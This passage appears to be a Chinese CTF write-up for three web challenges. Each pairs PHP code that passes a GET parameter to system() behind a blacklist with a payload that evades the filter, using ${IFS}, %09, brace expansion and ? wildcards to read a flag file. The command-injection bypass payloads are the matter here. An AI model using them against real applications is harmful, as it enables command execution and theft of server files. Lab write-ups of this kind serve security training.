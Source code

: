 多过滤了个空格

**空格绕过**

 ```
 >` `<` `<>` 重定向符
 `%09`(需要php环境)
 `${IFS}`
 `$IFS$9`
 `{cat,flag.php}` //用逗号实现了空格功能
 `%20`
 `%09
 ```

payload： ?c=sort${IFS}fl*|| 



## web 46

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了数子，$，*等，通配符可以使用？问号，空格可用%09  （不属于数字）

payload: ?c=sort%09fl?g.php||



## web 47

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

多过滤了一些内容，自己按照表找出未被过滤的进行替代即可

payload: ?c=tac%09fl?g.php||
